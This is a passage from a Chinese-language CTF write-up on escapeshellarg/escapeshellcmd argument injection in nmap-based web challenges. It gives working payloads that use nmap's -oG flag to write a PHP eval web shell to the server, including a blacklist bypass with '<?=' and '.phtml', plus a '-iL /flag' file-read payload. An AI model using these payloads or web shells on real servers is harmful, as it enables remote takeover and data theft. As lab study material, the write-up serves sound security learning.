 结果如下： <img src="https://img-blog.csdnimg.cn/20210505100832723.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">修改 `$host1 = "'123'"`（添加单引号），运行效果如下： <img src="https://img-blog.csdnimg.cn/20210505100953595.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">来分析下运行结果：

```
'123'
''\''123'\'''
''\\''123'\\'''
nmap -T5 -sT -Pn --host-timeout 2 -F ''\\''123'\\'''


```

末尾的`''\\''123'\\'''`最终的转义执行过程：
1. 命令行`nmap -T5 -sT -Pn --host-timeout 2 -F`后面的前两个单引号形成了闭合表示空；而`\\''`的转义步骤：`\\`转移成了`\`，而`\`和后面的`'`转移成了`'`，最后结果为`''`表示空 ；1. 数字123后面的`'\\'''`的转义步骤则为：保留第一个`'`，`\\'''`同理变成`'''`，正好和前一个`'`形成两个闭合，表示空。
就这样，输入`'123'`后`123`就变成了命令而不是带单引号的字符串。上面 Nmap 的 Payload 加单引号的原因则同理。

2、原理分析完，来看看 Payload 的利用和效果，在浏览器输入：

```
http://解题地址XXXX?host=' &lt;?php @eval($_POST["123"]);?&gt; -oG hack.php '


```

如下，服务端返回文件存储路径： <img src="https://img-blog.csdnimg.cn/20210505102053782.png" alt="在这里插入图片描述">3、使用蚁剑链接`http://XXXXX/5f19f45ad7b9da693206c096c48a2a8d/hack.php`，如下所示： <img src="https://img-blog.csdnimg.cn/20210505102952752.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 成功连接： <img src="https://img-blog.csdnimg.cn/20210505103019481.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 到根目录下可读取到 flag： <img src="https://img-blog.csdnimg.cn/20210505103249180.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

<img src="https://img-blog.csdnimg.cn/20210505103111468.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 【**题目小结**】
1. `escapeshellarg()`和 `escapeshellcmd()` 函数组合利用的顺序不当，可导致字符转义过滤失败；1. Nmap 的`-oG`参数可以实现将命令和结果写到文件，我们可以借助该参数写入一句话木马到服务器指定文件中，并通过蚁剑链接后控制服务器、查看 Flag。
### No.11 2020网鼎杯朱雀组Nmap

看看题目： <img src="https://img-blog.csdnimg.cn/20210505105258332.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">1、访问解题地址： <img src="https://img-blog.csdnimg.cn/20210505105328121.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">输入本地地址试试执行效果： <img src="https://img-blog.csdnimg.cn/20210505110013617.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

2、解法与上一题类似，使用 Nmap 的`-oG`参数上传一句话木马，尝试直接使用上一题的 Payload：

```
' &lt;?php @eval($_POST["123"]);?&gt; -oG hack.php '


```

提示 Hacker… <img src="https://img-blog.csdnimg.cn/20210505105911438.png" alt="在这里插入图片描述">3、应该存在黑名单，fuzz 发现，php 关键词被过滤了，我们再次构造一下代码：

```
' &lt;?= @eval($_POST["123"]);?&gt; -oG hack.phtml '


```

这里使用“`=`”绕过文件中的 php 字符，使用“`phtml`”绕过对“`php`”文件后缀的检测，再次输入： <img src="https://img-blog.csdnimg.cn/2021050511031225.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20210505110320914.png" alt="在这里插入图片描述"> 4、尝试进行命令执行，成功上传一句话木马：

<img src="https://img-blog.csdnimg.cn/2021050511060327.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">5、菜刀连接木马并查看获得 Flag： <img src="https://img-blog.csdnimg.cn/2021050511072111.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20210505110737528.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20210505110750409.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 6、另一种解法是直接使用 Nmap 的`-iL` 读取任意文件，Payload 如下：

```
' -iL /flag -oN test.txt '


```
